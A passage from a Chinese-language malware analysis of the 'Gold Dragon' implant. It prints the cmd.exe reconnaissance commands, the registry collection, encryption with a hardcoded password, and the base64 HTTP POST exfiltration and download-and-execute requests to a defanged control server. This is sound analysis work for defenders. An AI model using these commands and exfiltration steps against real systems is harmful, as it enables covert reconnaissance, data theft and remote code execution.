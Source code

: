 `cmd.exe /c dir C:PROGRA~1 &gt;&gt; C:DOCUME~1&lt;username&gt;APPLIC~1MICROS~1HNC1.hwp`

4、使用命令收集主机的系统信息：

`cmd.exe /c systeminfo &gt;&gt; C:DOCUME~1&lt;username&gt;APPLIC~1MICROS~1HNC1.hwp`

5、将`ixe000.bin`文件从`C:Documents and Settings&lt;username&gt;Application DataMicrosoftWindowsUserProfilesixe000.bin`拷贝至`C:DOCUME~1&lt;username&gt;APPLIC~1MICROS~1HNC1.hwp`。

6、收集当前用户注册表中的`Run`键值信息。

```
HKEY_CURRENT_USERSOFTWAREMicrosoftWindowsCurrentVersionRun
Number of subkeys
(&lt;KeyIndex&gt;) &lt;KeyName&gt;
Number of Values under each key including the parent Run key
(&lt;ValueIndex&gt;) &lt;Value_Name&gt; &lt;Value_Content&gt;
```

[![](https://p0.ssl.qhimg.com/t01004732dcde311b73.png)](https://p0.ssl.qhimg.com/t01004732dcde311b73.png)

带有注册表信息以及系统信息的`1.hwp`如下所示：

[![](https://p5.ssl.qhimg.com/t01a1c5443a5f30d95a.png)](https://p5.ssl.qhimg.com/t01a1c5443a5f30d95a.png)

Gold Dragon会在信息窃取过程中执行如下步骤：

1、一旦恶意软件从主机上收集到了所需的数据，则会使用`www[dot]GoldDragon[dot]com`这个密码来加密`1.hwp`文件。

2、加密后的数据写入`1.hwp`文件中。

3、在信息窃取过程中，恶意软件会使用base64算法编码经过加密的数据，然后使用HTTP POST请求将结果发送给控制服务器，所使用的URL地址为：`http://ink[dot]inkboom.co.kr/host/img/jpg/post.php`。

4、在请求过程中使用的HTTP数据及参数包含如下内容：

```
Content-Type: multipart/form-data; boundary=—-WebKitFormBoundar ywhpFxMBe19cSjFnG &lt;followed by base64 encoded &amp; encrypted system info&gt;
User Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; .NET CLR 1.1.4322)
Accept-Language: en-us
HTTP Version: HTTP/1.0
```

此外，恶意软件也会下载并执行控制服务器为其提供的其他组件。控制服务器会根据恶意软件提供的主机名以及用户名返回其他组件，恶意软件将主机名及用户名嵌入HTTP GET请求中，如下所示：

```
GET http://ink[dot]inkboom.co.kr/host/img/jpg/download.php?filename=&lt;Computer_Name&gt;_&lt;username&gt;&amp;continue=dnsadmin
```

从控制服务器那成功获取组件后，恶意软件会将下一阶段拷贝至当前用户的Application Data目录，再加以执行：

```
C:DOCUME~1&lt;username&gt;APPLIC~1MICROS~1HNChupdate.ex
```

**备注：的确是`ex`文件，并非`exe`文件**

[![](https://p5.ssl.qhimg.com/t012046710253f0a0f4.png)](https://p5.ssl.qhimg.com/t012046710253f0a0f4.png)
